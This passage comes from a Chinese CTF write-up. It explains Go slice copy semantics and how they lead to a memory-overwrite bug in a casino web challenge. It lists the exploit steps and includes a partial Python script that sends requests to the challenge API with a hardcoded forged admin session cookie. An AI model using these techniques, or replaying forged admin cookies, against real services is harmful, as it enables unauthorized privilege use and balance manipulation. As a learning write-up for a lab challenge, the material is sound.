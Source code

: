    ```go
   /*
   output:
   [1 0]
   [0 0]
   */
   ```

   为什么修改第一个元素的值成功而添加一个元素的值失败呢？

   因为第一个函数中修改第一个元素的值是通过底层数组指针偏移寻址，修改了底层int变量的值，所以在函数外可见

   而在第二个函数中`append`操作确实成功了，底层数组也确实被修改为了`[0 0 1]`，但是由于引用类型本身还是值传递，所以appendOne函数内获得的是main函数中切片的拷贝，当调用append函数时由于`len == cap`，所以重新分配了底层数组元素并将`[0 0]`拷贝过去，接着修改slice底层结构体的长度`len++`，容量为4，但此时原始的s切片长度依然为2，所以它可见的切片依然是`[0 0]`（即使容量足够没有分配新的底层数组也是如此）

   ***

   此时回到题目中来，题目的逻辑是这样的：

   1. 管理员将用户加入正式游戏成员，`struct Service`的Players切片中加入`struct U`（即U的拷贝）
   2. 赌场游戏结算，将`struct Service`的Players切片的所有`struct U`的金额都加上一个大随机数，注意这里在slice上append，仅仅是对函数内的一个切片拷贝做操作，当函数执行完成栈帧弹出该拷贝也就被释放了

   那么假如我们能让结算时加上的大随机数能够在函数外被访问，那么我们就达到了总金额大于99999的条件从而能获取flag

   利用思路如下：

   1. 用户连续三次`beg`，此时Balance切片为`[99, 99, 99]`，长度为3，容量为4
   2. 请求加入游戏，使用admin的session添加用户到正式成员，服务端会将User的拷贝加入Players切片
   3. 使用admin账号开始赌场服务
   4. 再次`beg`，此时用户能访问到User结构体的Balance为`[99, 99, 99, 99]`，长度为4，容量为4。而服务Players切片中的当前用户Balance依然为`[99, 99, 99]`
   5. 等待五分钟游戏结算，服务为Balance拷贝加入一个大随机数，由于拷贝看到的结构体长度为3，所以它向原始数组偏移量为4的位置加入大随机数，即可成功覆盖内存加入大随机数。此时用户总金额大于99999
   6. 访问User info界面，即可获取flag

   利用脚本：

   ```python
   import requests
   import time
   
   url = 'http://IP'
   u = 'iv4n'
   pwd = '11111111'
   duration = 5 * 60
   
   admin_cookie = 'MTU2NjA1MDgzMHxFXy1CQkFFQkEwOWlhZ0hfZ2dBQkVBRVFBQUFfXzRJQUFnWnpkSEpwYm1jTUJ3QUZkVzVoYldVR2MzUnlhVzVuREFjQUJXRmtiV2x1Qm5OMGNtbHVad3dKQUFkcGMwRmtiV2x1QkdKdmIyd0NBZ0FCfOM2FZ8ee4WAWKbJaHcjTwpQCiLvR-QBsqNeM7GrH4a7 '
   
   s = requests.Session()
   s.post(url + ':50000/auth/login', json={'uname': u, 'pwd': pwd})
   s.post(url + ':50001/api/u/reset', json={'pwd': pwd})
   s.post(url + ':50001/api/u/beg', json={'pwd': pwd})
   s.post(url + ':50001/api/u/beg', json={'pwd': pwd})
   s.post(url + ':50001/api/u/beg', json={'pwd': pwd})
   
   requests.get(
       url + ':50001/api/service/manage/reset',
       cookies={
           'casino': admin_cookie,
       })
   requests.get(
       url + ':50001/api/service/manage/start',
       cookies={
           'casino': admin_cookie
       })
   ```